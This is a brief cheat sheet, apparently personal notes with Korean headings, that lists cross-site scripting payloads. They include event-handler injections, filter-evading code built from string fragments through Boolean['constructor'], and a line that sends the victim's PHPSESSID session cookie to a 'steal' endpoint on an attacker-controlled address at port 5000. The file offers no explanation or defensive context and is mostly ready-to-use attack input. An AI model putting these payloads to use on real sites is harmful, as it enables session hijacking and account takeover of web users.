 # XSS 페이로드
"><svg/onwheel=alert'1'> 


aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 


<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
Boolean['constructor']('alert(1);')();

Boolean['constructor']('a' + 'l' + 'e' + 'r' + 't' + '(1)')();

onwheel="Boolean['constructor']('a'+'l'+'e'+'r'+'t'+'('+'d'+'o'+'c'+'u'+'m'+'e'+'n'+'t'+'.'+'c'+'o'+'o'+'k'+'i'+'e'+')')();"

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

";Boolean[%27constructor%27](%27al%27%2b%27er%27%2b%27t(1)%27)();"


;window.open("https://naver.com");
